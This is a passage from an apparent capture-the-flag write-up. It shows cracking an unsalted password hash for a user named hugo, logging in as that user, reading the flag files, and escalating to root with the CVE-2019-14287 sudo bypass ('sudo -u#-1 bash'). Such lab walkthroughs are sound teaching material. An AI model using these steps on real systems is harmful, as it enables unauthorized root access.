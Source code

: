 lets try to crack it (oh, no salt!!!)
```
user: hugo
hash: faca404fd5c0a31cf1897b823c695c85cffeb98d 
result: Password120


su hugo
Password: Password120

whoami 
hugo
```

## 8 - get user flag

is in his home folder...

```
cat /home/hugo/user.txt
FLAG: 60e4ba13b729d7b0a0184b05305c7e7b
```


## 9 - checking sudo permissions

```
sudo -l

(ALL, !root) /bin/bash
```

This is exploitable with CVE-2019-14287
```
sudo -u#-1 bash

whoami 
# root


cat /root/root.txt
FLAG: d2b5c7e8168970b42763eb7a9e95690b
```
